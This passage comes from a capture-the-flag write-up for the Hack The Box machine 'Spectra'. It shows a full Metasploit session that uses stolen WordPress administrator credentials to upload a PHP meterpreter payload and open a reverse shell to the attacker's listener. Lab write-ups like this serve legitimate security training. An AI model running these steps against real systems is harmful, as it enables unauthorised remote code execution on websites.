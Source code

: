 We’re logged in as **administrator**. At this point we can either use Meterpreter to get a reverse shell, or we can change one of the template files from within the WordPress admin site and put our own reverse shell in it.

Here I'm using meterpreter because it will make our work easy.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/htb/spectra]
└──╼ $msfconsole
+ -- --=[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2131 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

msf6 > search wp_admin_shell

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_admin_shell_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
```
let’s set all the options.
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.15.0
LHOST => 10.10.15.0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 10.10.10.229
RHOST => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.15.0:4444 
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/RnGLAQgcmL/exUrTaKSFb.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted exUrTaKSFb.php
[+] Deleted RnGLAQgcmL.php
[+] Deleted ../RnGLAQgcmL
[*] Meterpreter session 1 opened (10.10.15.0:4444 -> 10.10.10.229:39316) at 2021-06-09 07:46:02 +0530

```